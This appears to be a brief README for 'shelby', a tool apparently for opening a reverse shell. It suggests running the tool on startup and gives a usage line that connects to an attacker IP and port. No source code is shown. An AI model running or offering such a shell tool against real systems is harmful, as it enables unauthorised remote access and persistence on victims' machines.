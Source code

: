 # shelby
When you want to make a shell but you can't be bothered. Run on startup to maximise laziness.

## Usage:

```bash
./shelby -i attacker_ip [-p attacker_port]
```